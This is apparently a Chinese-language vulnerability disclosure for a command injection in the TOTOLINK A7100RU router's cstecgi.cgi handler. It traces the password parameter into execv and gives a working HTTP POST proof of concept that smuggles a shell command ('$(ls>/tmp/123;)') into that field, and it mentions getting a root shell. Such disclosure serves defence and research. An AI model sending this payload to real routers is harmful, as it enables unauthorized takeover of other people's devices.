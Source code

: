 # TOTOlink A7100RU(V7.4cu.2313_B20191024)路由器存在命令注入漏洞

## 写在前面

厂商信息：http://totolink.net/

固件下载地址：http://totolink.net/home/menu/detail/menu_listtpl/download/id/185/ids/36.html

## 1.影响版本

![img](img/wps31.jpg) 

 

图1为固件版本信息

## 2.漏洞细节

![image-20220719221904418](img/image-20220719221904418.png)

程序通过获取password参数下的内容传递给v26，之后将v26传递给v28，最后将v28带入到Uci_Set_Str函数中

![image-20220719221927683](img/image-20220719221927683.png)

在Uci_Set_Str函数中，通过snprintf函数，将a4匹配到的内容格式化进v11，之后将v11带入cstesystem函数中

![image-20220719221954655](img/image-20220719221954655.png)

函数直接将用户输入内容带入到execv函数中，存在命令注入漏洞

## POC

```jsx
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 79
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urencoded; charset=UTF-8
Origin: <http://192.168.0.1>
Referer: <http://192.168.0.1/adm/status.asp?timestamp=1647872753309>
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1647872744:2
Connection: close

{"topicurl":"setting/setOpenVpnCertGenerationCfg",
"password":"1$(ls>/tmp/123;)"}
```

复现结果如下

![img](img/wps32.jpg) 

 

图2 POC攻击效果

最后，您可以编写exp，这可以实现获得根shell的非常稳定的效果

![img](img/wps33.jpg) 

 